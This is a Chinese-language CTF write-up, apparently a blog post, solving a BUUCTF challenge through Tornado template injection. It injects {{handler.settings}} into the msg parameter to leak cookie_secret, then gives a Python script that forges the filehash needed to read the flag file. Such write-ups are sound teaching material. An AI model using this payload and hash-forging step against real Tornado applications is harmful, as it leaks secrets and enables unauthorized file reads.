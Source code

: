这里拿一道BUUCTF的题来演示一下tornado render模板注入：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903230948354-1221642454.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903230948354-1221642454.png)

flag.txt：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231123661-1731456025.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231123661-1731456025.png)

welcome.txt

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231255390-418247473.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231255390-418247473.png)

hints.txt

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231526172-982886875.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903231526172-982886875.png)

根据上面的信息，我们知道flag在/fllllllllllllag文件中

render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页render配合Tornado使用

最后就是这段代码md5(cookie_secret+md5(filename))，再来分析我们访问的链接：

http://4dd65e36-edbf-4402-b6a3-75993b8c618d.node3.buuoj.cn/file?filename=/flag.txt&filehash=284090432706edeffa4679e60f0fff03

推测md5加密过后的值就是url中filehash对应的值，想获得flag只要我们在filename中传入/fllllllllllllag文件和filehash，所以关键是获取cookie_secret

在tornado模板中，存在一些可以访问的快速对象，比如 {{escape(handler.settings["cookie"])}}，这个其实就是handler.settings对象，里面存储着一些环境变量，具体分析请参照《[python SSTI tornado render模板注入](https://www.cnblogs.com/cimuhuashuimu/p/11544455.html)》。

观察错误页面，发现页面返回的由msg的值决定

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903233530649-1247101816.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903233530649-1247101816.png)

修改msg的值注入{{handler.settings}}，获得环境变量

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903233721068-1721567768.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903233721068-1721567768.png)

得到cookie_secret的值，根据上面的md5进行算法重构，就可以得到filehash，这里给出py3的转换脚本

import hashlib
hash = hashlib.md5()

filename='/fllllllllllllag'
cookie_secret="ad53693f-47f6-4c89-b072-0673e0fbbc17"
hash.update(filename.encode('utf-8'))
s1=hash.hexdigest()
hash = hashlib.md5()
hash.update((cookie_secret+s1).encode('utf-8'))
print(hash.hexdigest())

得到filehash=ceba5d7a8acd8c4fb77cfb58c9534971，获取flag
